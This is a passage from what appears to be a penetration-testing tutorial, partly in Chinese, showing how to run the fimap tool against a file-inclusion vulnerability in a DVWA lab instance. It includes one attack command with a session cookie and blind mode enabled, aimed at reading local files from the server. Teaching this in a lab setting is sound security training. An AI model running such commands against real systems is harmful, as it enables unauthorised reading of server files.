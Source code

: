 2.  Open the terminal and type `fimap`, which will show the version and author information, as shown in the following screenshot:

    ![How to do it...](img/image_07_066.jpg)

3.  要使用 Fimap 攻击 LFI/RFI 漏洞，我们需要使用以下命令：

    ```
          fimap -u 'http://172.17.0.2/dvwa/vulnerabilities       /fi/?page=include.php' --cookie="security=low;         PHPSESSID=b2qfpad4jelu36n6d2o5p6snl7" --enable-blind

    ```

4.  Fimap will start looking for the local file it can read from the server and will display it if the target is vulnerable to a file inclusion attack, as shown in the following screenshot:

    ![How to do it...](img/image_07_067.jpg)

